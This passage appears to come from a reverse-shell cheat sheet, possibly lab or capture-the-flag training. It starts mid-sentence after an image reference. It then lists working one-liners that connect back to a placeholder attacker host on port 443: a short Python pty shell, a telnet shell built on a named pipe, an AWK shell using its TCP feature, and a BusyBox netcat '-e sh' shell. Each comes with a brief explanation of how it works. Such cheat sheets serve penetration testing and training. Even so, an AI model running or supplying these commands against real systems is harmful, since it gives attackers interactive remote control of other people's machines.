 This reverse shell uses the subprocess module to spawn a shell and set up a similar environment as the Python Reverse Shell by Exporting Environment Variables command.

### Short Python Reverse Shell

```
PY-C 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```

This reverse shell creates a socket (s), connects to the attacker, and redirects standard input, output, and error to the socket using os.dup2().

## Others

### Telnet

```
target@foo:~$ TF=$(mktemp -u); mkfifo $TF && telnet <ATTACKER_IP>443 0<$TF | sh 1>$TF
```
This reverse shell creates a named pipe using mkfifo and connects to the attacker via Telnet on IP ATTACKER_IP and port 443. 

### AWK

```
target@foo:~$ awk 'BEGIN {s = "/inet/tcp/0/<ATTACKER_IP>/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
This reverse shell uses AWK’s built-in TCP capabilities to connect to ATTACKER_IP:443. It reads commands from the attacker and executes them. Then it sends the results back over the same TCP connection.

### BusyBox

```
target@foo:~$ busybox nc <ATTACKER_IP> 443 -e sh
```

This BusyBox reverse shell uses Netcat (nc) to connect to the attacker at ATTACKER_IP:443. Once connected, it executes /bin/sh, exposing the command line to the attacker.